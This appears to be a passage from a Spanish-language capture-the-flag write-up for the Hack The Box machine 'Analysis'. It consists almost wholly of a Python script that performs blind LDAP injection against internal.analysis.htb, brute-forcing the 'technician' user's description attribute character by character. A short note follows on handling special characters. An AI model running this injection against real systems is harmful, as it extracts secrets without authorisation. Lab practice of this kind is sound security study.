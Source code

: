```python
#! /usr/bin/env python3

import requests
import signal
import sys 
import re
import string
from termcolor import colored
from pwn import *

def exit(a,b):
    print(colored(f"\nLeaving.....", 'red'))
    sys.exit(0)


signal.signal(signal.SIGINT, exit)
url= 'http://internal.analysis.htb/users/list.php?name='
characters= string.ascii_letters + string.digits + '_-#%&*' 
name = "technician"
parameter = "description"

def injection():
     
    content = ""
    log1 = log.progress("Strating Ingection")
    log1.status("Starting :S")
    log2 = log.progress("Analyzing")
    print()

    for i in range(14):
        for character in characters:
   
            try:
                log1.status(url+name+f")({parameter}={content}{character}*")
                r = requests.get(url+name+f")(description={content}{character}*")
                username= re.findall(r'<strong>(.*?)</strong>', r.text)[0]
               
                if  name in username: 
                    content+=character
                    log2.status(content)
                    break
            except:
                content+=character
                log2.status(content)
                break

    print(colored(f"Analysis completed", "green"))

if __name__=='__main__':
    
    injection()
```
Añadí los caracteres especiales ya que lo probé sin ellos y no funcionaba, el try también lo puse porque o sino daba error cuando llegaba al carácter `*`.... entraba en conflicto así que esto nos hara tener una excepcion controlada.
